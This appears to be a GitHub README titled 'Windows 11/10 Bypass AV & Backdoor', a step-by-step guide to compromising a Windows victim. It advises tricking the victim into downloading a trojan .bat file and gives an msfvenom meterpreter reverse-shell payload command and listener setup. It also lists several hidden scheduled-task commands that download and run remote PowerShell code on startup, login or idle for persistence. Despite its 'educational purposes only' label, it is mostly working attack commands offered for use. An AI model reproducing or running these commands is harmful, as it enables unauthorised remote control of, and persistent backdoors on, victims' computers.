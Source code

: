 # Windows 11/10 Bypass AV & Backdoor
##### For educational purposes only!
##### Social Engineering required!
## Steps to Compromise:

1. Make it convincing by turning it into a trojan horse.
2. Get victim to download .bat file to their machine (i.e through ngrok server, google drive, discord, or other means.)
3. Generate the payload: <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]

4. Setup your listener with nc or msfconsole: <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
5. For persistence, create a schuled task for backdoor payload: <br>
   (x64) - On System Start <br>
   schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX      ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onstart /ru System <br>
 
   (X64) - On User Idle (30mins) <br>
   schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX      ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onidle /i 30 <br>
 
   (X86) - On User Login <br>
   schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX      ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onlogon /ru System <br>
  
   (X86) - On System Start <br>
   schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX      ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onstart /ru System <br>
  
   (X86) - On User Idle (30mins) <br>
   schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX      ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onidle /i 30 <br>
